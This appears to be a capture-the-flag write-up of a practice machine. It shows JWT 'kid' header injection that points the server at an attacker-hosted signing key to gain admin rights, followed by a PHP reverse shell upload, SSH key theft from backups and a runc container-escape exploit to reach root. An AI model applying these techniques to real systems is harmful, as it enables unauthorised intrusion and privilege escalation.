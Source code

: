 # Enumeration

Nmap scan show us machine is openning these ports: `22,80,10010` 

Directory enumeration with gobuster
```
/login                (Status: 200) [Size: 1250]
/register             (Status: 200) [Size: 1422]
/admin                (Status: 403) [Size: 9]
/logout               (Status: 302) [Size: 209] [--> http://10.10.10.230/]
```
Visit the website, we explore the website functionality.

Register an account and login to the website

We see the website functionality is very basic, you can login and then you can add notes, view your own notes.

Viewing page source code doesn't show any interesting,

I use Burp Suite to explore the request, especially the request/response headers (my favorite place). You can tell a lot about what is running underneath based on the HTTP headers

I see they have Set-Cookie header. So every time we send a request to view notes, it uses `Cookie: auth=ey...` to identify our rights inside the website, and it is using JSON Web Token

I go to jwt.io to decrypt to token content and got this.

Token data:
```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 0
}
```

I am familiar with Web Application and how they work, especially the jwt authentication. But I rarely see the `kid` ( Key ID) in the JWT header, and since it is using `RS256` alg, it must be signed by a private key and the `"kid": "http://localhost:7070/privKey.key"` is showing that where the back-end get the private key from.

I did some research on what is the `kid` header and can we manipulate it ?. I ran into this [article](https://blog.pentesteracademy.com/hacking-jwt-tokens-kid-claim-misuse-command-injection-e7f5b9def146)

In the aricle, they mention about `kid` parameter get the private key from an absolute path point to the private key inside the machine.

But our `kid` parameter is point to a file hosted by a web server.

So we can kinda guest that, they are doing some http request to that `localhost:7070` to get the private key. Like `os.popen(curl $(kid))` , or something like that.

To test our theory to see if the website is vulnerable to that, we can generate a jwt with this value (and signed it with our private key)

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/a.txt"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

**Note**: We modify and `kid` value to our local web server ( `python -m SimpleHTTPServer` can help you spin up a web server quickly) . We also modify the `admin_cap` value to `1` since we have control over these values.

Modify the Cookie value with our token

```
auth=<our_tokens
```

And then we send our request to server. Watch our local machine logs, we did receive request from the box by modifying `kid` value => It is vulnerable 

# Exploit

Now it's time to take a step further. We will modify the `kid` value and point the URL to our private key and have the box fetch private key from our machine, verify the token

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/privKey.key" // Our private key
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

When the web server get our private key and verify it with our private key, our token become valid => We just got the admin priviledge inside the website

Go to `/admin` , we saw a upload file function and view all notes function

Click to view all notes, we can see that they have some notes:
- One is about PHP file being executed and it's not secure
- Second is about some backups

We can upload a php reverse shell file to get our reverse shell
=> We got RCE.


Enumerate users in machine
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
noah:x:1000:1000:Noah:/home/noah:/bin/bash
```

Based on the notes, we know there are some backup folders, doing some basic enumeration, we can found back up folders at `/var/backups` but it owned by `root`, we copy that back up folder to a directory owned by ours user so we can unzip them.

```
cp home.tar.gz /tmp
tar -zxcf home.tar.gz 
COPY id_rsa private key and login
```
=> got user, capture the `user.txt` flag

# Post Exploitation

Root part was pretty straight forward

```
sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

We follow the article below

Exploit: https://programmersought.com/article/71085031667/

Source code: https://github.com/Frichetten/CVE-2019-5736-PoC

Clone the go source code and compile it into executable file, and then download the file from inside docker container which we have root priviledges and then execute

After the script return succesfuly, we execute to the docker container with `/bin/sh` and then the root shell will pop back to us
